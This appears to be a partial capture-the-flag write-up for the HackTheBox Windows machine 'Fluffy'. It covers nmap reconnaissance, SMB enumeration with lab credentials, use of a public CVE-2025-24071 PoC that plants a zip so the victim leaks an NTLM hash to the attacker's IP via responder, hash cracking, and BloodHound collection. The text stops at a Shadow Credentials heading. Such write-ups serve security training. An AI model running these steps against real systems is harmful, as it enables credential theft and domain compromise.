



# Description

Fluffy is an easy Windows machine that demonstrates a CVE-2025-24071, Shadow Credentials technique, and ESC16 vulnerability on ADCS.

# Recon

## nmap

`nmap` shows open ports that are common on a Domain Controller machine.

```bash
# Nmap 7.95 scan initiated Sun May 25 09:59:56 2025 as: nmap -vvv -T4 -sSCV -oN 1000_tcp_scan.txt 10.10.11.69
Nmap scan report for 10.10.11.69
Host is up, received echo-reply ttl 127 (0.078s latency).
Scanned at 2025-05-25 10:00:02 WIB for 125s
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-05-25 09:39:37Z)
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-25T09:41:03+00:00; +6h38m57s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA/domainComponent=fluffy
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
| SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
| -----BEGIN CERTIFICATE-----
| MIIGJzCCBQ+gAwIBAgITUAAAAAJKRwEaLBjVaAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBGMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGZmx1ZmZ5
| MRcwFQYDVQQDEw5mbHVmZnktREMwMS1DQTAeFw0yNTA0MTcxNjA0MTdaFw0yNjA0
| MTcxNjA0MTdaMBoxGDAWBgNVBAMTD0RDMDEuZmx1ZmZ5Lmh0YjCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAOFkXHPh6Bv/Ejx+B3dfWbqtAmtOZY7gT6XO
| KD/ljfOwRrRuvKhf6b4Qam7mZ08lU7Z9etWUIGW27NNoK5qwMnXzw/sYDgGMNVn4
| bb/2kjQES+HFs0Hzd+s/BBcSSp1BnAgjbBDcW/SXelcyOeDmkDKTHS7gKR9zEvK3
| ozNNc9nFPj8GUYXYrEbImIrisUu83blL/1FERqAFbgGwKP5G/YtX8BgwO7iJIqoa
| 8bQHdMuugURvQptI+7YX7iwDFzMPo4sWfueINF49SZ9MwbOFVHHwSlclyvBiKGg8
| EmXJWD6q7H04xPcBdmDtbWQIGSsHiAj3EELcHbLh8cvk419RD5ECAwEAAaOCAzgw
| ggM0MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABs
| AGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQD
| AgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQME
| AgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglg
| hkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFMlh3+130Pna
| 0Hgb9AX2e8Uhyr0FMB8GA1UdIwQYMBaAFLZo6VUJI0gwnx+vL8f7rAgMKn0RMIHI
| BgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPWZsdWZmeS1EQzAxLUNB
| LENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaBn2xkYXA6
| Ly8vQ049Zmx1ZmZ5LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERD
| PWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlv
| bkF1dGhvcml0eTA7BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBB0co4Ym5z7RbSI
| 5tsj1jN/gg9EQzAxLmZsdWZmeS5odGIwTgYJKwYBBAGCNxkCBEEwP6A9BgorBgEE
| AYI3GQIBoC8ELVMtMS01LTIxLTQ5NzU1MDc2OC0yNzk3NzE2MjQ4LTI2MjcwNjQ1
| NzctMTAwMDANBgkqhkiG9w0BAQsFAAOCAQEAWjL2YkginWECPSm1EZyi8lPQisMm
| VNF2Ab2I8w/neK2EiXtN+3Z7W5xMZ20mC72lMaj8dLNN/xpJ9WIvQWrjXTO4NC2o
| 53OoRmAJdExwliBfAdKY0bc3GaKSLogT209lxqt+kO0fM2BpYnlP+N3R8mVEX2Fk
| 1WXCOK7M8oQrbaTPGtrDesMYrd7FQNTbZUCkunFRf85g/ZCAjshXrA3ERi32pEET
| eV9dUA0b1o+EkjChv+b1Eyt5unH3RDXpA9uvgpTJSFg1XZucmEbcdICBV6VshMJc
| 9r5Zuo/LdOGg/tqrZV8cNR/AusGMNslltUAYtK3HyjETE/REiQgwS9mBbQ==
|_-----END CERTIFICATE-----
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-25T09:41:01+00:00; +6h38m56s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA/domainComponent=fluffy
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
| SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
| -----BEGIN CERTIFICATE-----
| MIIGJzCCBQ+gAwIBAgITUAAAAAJKRwEaLBjVaAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBGMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGZmx1ZmZ5
| MRcwFQYDVQQDEw5mbHVmZnktREMwMS1DQTAeFw0yNTA0MTcxNjA0MTdaFw0yNjA0
| MTcxNjA0MTdaMBoxGDAWBgNVBAMTD0RDMDEuZmx1ZmZ5Lmh0YjCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAOFkXHPh6Bv/Ejx+B3dfWbqtAmtOZY7gT6XO
| KD/ljfOwRrRuvKhf6b4Qam7mZ08lU7Z9etWUIGW27NNoK5qwMnXzw/sYDgGMNVn4
| bb/2kjQES+HFs0Hzd+s/BBcSSp1BnAgjbBDcW/SXelcyOeDmkDKTHS7gKR9zEvK3
| ozNNc9nFPj8GUYXYrEbImIrisUu83blL/1FERqAFbgGwKP5G/YtX8BgwO7iJIqoa
| 8bQHdMuugURvQptI+7YX7iwDFzMPo4sWfueINF49SZ9MwbOFVHHwSlclyvBiKGg8
| EmXJWD6q7H04xPcBdmDtbWQIGSsHiAj3EELcHbLh8cvk419RD5ECAwEAAaOCAzgw
| ggM0MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABs
| AGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQD
| AgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQME
| AgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglg
| hkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFMlh3+130Pna
| 0Hgb9AX2e8Uhyr0FMB8GA1UdIwQYMBaAFLZo6VUJI0gwnx+vL8f7rAgMKn0RMIHI
| BgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPWZsdWZmeS1EQzAxLUNB
| LENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaBn2xkYXA6
| Ly8vQ049Zmx1ZmZ5LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERD
| PWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlv
| bkF1dGhvcml0eTA7BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBB0co4Ym5z7RbSI
| 5tsj1jN/gg9EQzAxLmZsdWZmeS5odGIwTgYJKwYBBAGCNxkCBEEwP6A9BgorBgEE
| AYI3GQIBoC8ELVMtMS01LTIxLTQ5NzU1MDc2OC0yNzk3NzE2MjQ4LTI2MjcwNjQ1
| NzctMTAwMDANBgkqhkiG9w0BAQsFAAOCAQEAWjL2YkginWECPSm1EZyi8lPQisMm
| VNF2Ab2I8w/neK2EiXtN+3Z7W5xMZ20mC72lMaj8dLNN/xpJ9WIvQWrjXTO4NC2o
| 53OoRmAJdExwliBfAdKY0bc3GaKSLogT209lxqt+kO0fM2BpYnlP+N3R8mVEX2Fk
| 1WXCOK7M8oQrbaTPGtrDesMYrd7FQNTbZUCkunFRf85g/ZCAjshXrA3ERi32pEET
| eV9dUA0b1o+EkjChv+b1Eyt5unH3RDXpA9uvgpTJSFg1XZucmEbcdICBV6VshMJc
| 9r5Zuo/LdOGg/tqrZV8cNR/AusGMNslltUAYtK3HyjETE/REiQgwS9mBbQ==
|_-----END CERTIFICATE-----
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-25T09:41:03+00:00; +6h38m57s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA/domainComponent=fluffy
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
| SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
| -----BEGIN CERTIFICATE-----
| MIIGJzCCBQ+gAwIBAgITUAAAAAJKRwEaLBjVaAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBGMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGZmx1ZmZ5
| MRcwFQYDVQQDEw5mbHVmZnktREMwMS1DQTAeFw0yNTA0MTcxNjA0MTdaFw0yNjA0
| MTcxNjA0MTdaMBoxGDAWBgNVBAMTD0RDMDEuZmx1ZmZ5Lmh0YjCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAOFkXHPh6Bv/Ejx+B3dfWbqtAmtOZY7gT6XO
| KD/ljfOwRrRuvKhf6b4Qam7mZ08lU7Z9etWUIGW27NNoK5qwMnXzw/sYDgGMNVn4
| bb/2kjQES+HFs0Hzd+s/BBcSSp1BnAgjbBDcW/SXelcyOeDmkDKTHS7gKR9zEvK3
| ozNNc9nFPj8GUYXYrEbImIrisUu83blL/1FERqAFbgGwKP5G/YtX8BgwO7iJIqoa
| 8bQHdMuugURvQptI+7YX7iwDFzMPo4sWfueINF49SZ9MwbOFVHHwSlclyvBiKGg8
| EmXJWD6q7H04xPcBdmDtbWQIGSsHiAj3EELcHbLh8cvk419RD5ECAwEAAaOCAzgw
| ggM0MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABs
| AGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQD
| AgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQME
| AgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglg
| hkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFMlh3+130Pna
| 0Hgb9AX2e8Uhyr0FMB8GA1UdIwQYMBaAFLZo6VUJI0gwnx+vL8f7rAgMKn0RMIHI
| BgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPWZsdWZmeS1EQzAxLUNB
| LENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaBn2xkYXA6
| Ly8vQ049Zmx1ZmZ5LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERD
| PWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlv
| bkF1dGhvcml0eTA7BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBB0co4Ym5z7RbSI
| 5tsj1jN/gg9EQzAxLmZsdWZmeS5odGIwTgYJKwYBBAGCNxkCBEEwP6A9BgorBgEE
| AYI3GQIBoC8ELVMtMS01LTIxLTQ5NzU1MDc2OC0yNzk3NzE2MjQ4LTI2MjcwNjQ1
| NzctMTAwMDANBgkqhkiG9w0BAQsFAAOCAQEAWjL2YkginWECPSm1EZyi8lPQisMm
| VNF2Ab2I8w/neK2EiXtN+3Z7W5xMZ20mC72lMaj8dLNN/xpJ9WIvQWrjXTO4NC2o
| 53OoRmAJdExwliBfAdKY0bc3GaKSLogT209lxqt+kO0fM2BpYnlP+N3R8mVEX2Fk
| 1WXCOK7M8oQrbaTPGtrDesMYrd7FQNTbZUCkunFRf85g/ZCAjshXrA3ERi32pEET
| eV9dUA0b1o+EkjChv+b1Eyt5unH3RDXpA9uvgpTJSFg1XZucmEbcdICBV6VshMJc
| 9r5Zuo/LdOGg/tqrZV8cNR/AusGMNslltUAYtK3HyjETE/REiQgwS9mBbQ==
|_-----END CERTIFICATE-----
3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-25T09:41:01+00:00; +6h38m56s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Issuer: commonName=fluffy-DC01-CA/domainComponent=fluffy
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-04-17T16:04:17
| Not valid after:  2026-04-17T16:04:17
| MD5:   2765:a68f:4883:dc6d:0969:5d0d:3666:c880
| SHA-1: 72f3:1d5f:e6f3:b8ab:6b0e:dd77:5414:0d0c:abfe:e681
| -----BEGIN CERTIFICATE-----
| MIIGJzCCBQ+gAwIBAgITUAAAAAJKRwEaLBjVaAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBGMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGZmx1ZmZ5
| MRcwFQYDVQQDEw5mbHVmZnktREMwMS1DQTAeFw0yNTA0MTcxNjA0MTdaFw0yNjA0
| MTcxNjA0MTdaMBoxGDAWBgNVBAMTD0RDMDEuZmx1ZmZ5Lmh0YjCCASIwDQYJKoZI
| hvcNAQEBBQADggEPADCCAQoCggEBAOFkXHPh6Bv/Ejx+B3dfWbqtAmtOZY7gT6XO
| KD/ljfOwRrRuvKhf6b4Qam7mZ08lU7Z9etWUIGW27NNoK5qwMnXzw/sYDgGMNVn4
| bb/2kjQES+HFs0Hzd+s/BBcSSp1BnAgjbBDcW/SXelcyOeDmkDKTHS7gKR9zEvK3
| ozNNc9nFPj8GUYXYrEbImIrisUu83blL/1FERqAFbgGwKP5G/YtX8BgwO7iJIqoa
| 8bQHdMuugURvQptI+7YX7iwDFzMPo4sWfueINF49SZ9MwbOFVHHwSlclyvBiKGg8
| EmXJWD6q7H04xPcBdmDtbWQIGSsHiAj3EELcHbLh8cvk419RD5ECAwEAAaOCAzgw
| ggM0MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABs
| AGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQD
| AgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQME
| AgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglg
| hkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFMlh3+130Pna
| 0Hgb9AX2e8Uhyr0FMB8GA1UdIwQYMBaAFLZo6VUJI0gwnx+vL8f7rAgMKn0RMIHI
| BgNVHR8EgcAwgb0wgbqggbeggbSGgbFsZGFwOi8vL0NOPWZsdWZmeS1EQzAxLUNB
| LENOPURDMDEsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERDPWh0Yj9jZXJ0aWZp
| Y2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJpYnV0
| aW9uUG9pbnQwgb8GCCsGAQUFBwEBBIGyMIGvMIGsBggrBgEFBQcwAoaBn2xkYXA6
| Ly8vQ049Zmx1ZmZ5LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNl
| cnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9Zmx1ZmZ5LERD
| PWh0Yj9jQUNlcnRpZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlv
| bkF1dGhvcml0eTA7BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBB0co4Ym5z7RbSI
| 5tsj1jN/gg9EQzAxLmZsdWZmeS5odGIwTgYJKwYBBAGCNxkCBEEwP6A9BgorBgEE
| AYI3GQIBoC8ELVMtMS01LTIxLTQ5NzU1MDc2OC0yNzk3NzE2MjQ4LTI2MjcwNjQ1
| NzctMTAwMDANBgkqhkiG9w0BAQsFAAOCAQEAWjL2YkginWECPSm1EZyi8lPQisMm
| VNF2Ab2I8w/neK2EiXtN+3Z7W5xMZ20mC72lMaj8dLNN/xpJ9WIvQWrjXTO4NC2o
| 53OoRmAJdExwliBfAdKY0bc3GaKSLogT209lxqt+kO0fM2BpYnlP+N3R8mVEX2Fk
| 1WXCOK7M8oQrbaTPGtrDesMYrd7FQNTbZUCkunFRf85g/ZCAjshXrA3ERi32pEET
| eV9dUA0b1o+EkjChv+b1Eyt5unH3RDXpA9uvgpTJSFg1XZucmEbcdICBV6VshMJc
| 9r5Zuo/LdOGg/tqrZV8cNR/AusGMNslltUAYtK3HyjETE/REiQgwS9mBbQ==
|_-----END CERTIFICATE-----
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

It reveals the hostname `DC01` and the domain `fluffy.htb`, make sure to add those and the FQDN to `/etc/hosts`.

```bash
10.10.11.69 dc01.fluffy.htb fluffy.htb
```

We already given a credential `j.fleischman:J0elTHEM4n1990!`, so let's check the SMB shares.

# Auth as j.fleischman

## SMB

```bash
> nxc smb fluffy.htb -u j.fleischman -p J0elTHEM4n1990! --shares
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990!
SMB         10.10.11.69     445    DC01             [*] Enumerated shares
SMB         10.10.11.69     445    DC01             Share           Permissions     Remark
SMB         10.10.11.69     445    DC01             -----           -----------     ------
SMB         10.10.11.69     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.69     445    DC01             C$                              Default share
SMB         10.10.11.69     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.69     445    DC01             IT              READ,WRITE
SMB         10.10.11.69     445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.11.69     445    DC01             SYSVOL          READ            Logon server share
```

Interestingly, we have `READ,WRITE` access to `IT` share. Let's check what's inside.

```bash
> smbclient.py fluffy.htb/j.fleischman:J0elTHEM4n1990!@fluffy.htb

# use IT
# ls
drw-rw-rw-          0  Sat May 31 23:56:39 2025 .
drw-rw-rw-          0  Sat May 31 23:56:39 2025 ..
drw-rw-rw-          0  Fri May 16 21:51:49 2025 Everything-1.4.1.1026.x64
-rw-rw-rw-    1827464  Fri May 16 21:51:49 2025 Everything-1.4.1.1026.x64.zip
drw-rw-rw-          0  Fri May 16 21:51:49 2025 KeePass-2.58
-rw-rw-rw-    3225346  Fri May 16 21:51:49 2025 KeePass-2.58.zip
-rw-rw-rw-     169963  Sat May 17 21:31:07 2025 Upgrade_Notice.pdf
```

There's one pdf file and two zip files. There are two directory that looks like extracted content of the zip files. Let's get the pdf file.



This file contains a report about recent vulnerabilities that could impact the system. It's instructed to schedule a maintenance, so the system could be hasn't been patched yet. After searching for a PoC, I found an article describing [CVE-2025-24071: NTLM Hash Leak via RAR/ZIP Extraction and .library-ms file](https://cti.monster/blog/2025/03/18/CVE-2025-24071.html). The PoC seems match to our scenario where the zip file could be extracted by someone in the `IT` share. It has a [PoC](https://github.com/0x6rss/CVE-2025-24071_PoC), so let's use it.

## CVE-2025-24071

```bash
> python poc.py
Enter your file name: anyname
Enter IP (EX: 192.168.1.162): 10.10.x.x
completed
```

Set up a `responder` to listen for an incoming connection.

```bash
responder -v -I tun0
```

Upload the `exploit.zip` and wait for the connection.



Crack the hash.

```bash
hashcat p.agila_hash.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

# Auth as p.agila

## Bloodhound

This user doesn't give us access to winrm nor further access in the SMB shares, so let's collect the domain information using `rusthound-ce`.

```bash
rusthound-ce -d fluffy.htb -u p.agila -p '<p.agila_password>' -c All -o p.agila_dump
```

Then, analyze the data using `bloodhound`

### Shadow Credentials



